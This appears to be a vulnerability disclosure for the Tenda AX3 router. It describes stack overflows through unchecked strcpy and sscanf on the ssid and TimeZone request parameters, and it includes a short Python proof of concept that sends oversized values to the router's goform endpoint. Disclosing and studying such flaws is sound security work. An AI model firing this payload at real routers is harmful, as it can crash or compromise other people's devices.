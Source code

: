 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/fast_setting_wifi_set,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerability function  form_fast_setting_wifi_set

![image-20220115020633570](./1.png) 

The v5 variable is obtained directly from the http request parameter ssid. Then v5 will be assigned to v6.

This function uses strcpy to copy the variable v6 to the stack variable par without any sercuity check.

Attacker can construct a long ssid parameter in the http request,which causes stack overflow.

![image-20220115021518187](2.png)

 

The v20 variable is directly retrieved from the http request parameter TimeZone.

Then v20 will be splice to stack by function sscanf without any security check,which causes stack overflow.

Combining the above two vulnerabilities can cause arbitrary code execution.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/fast_setting_wifi_set"
ssid = "a" * 0x1000
timeZone = "b"*0x1000
r = requests.post(url, data={'ssid': ssid, 'timeZone': timeZone})
print(r.content)
```

## Timeline

- 2021-12-31 report to CNVD&CVE
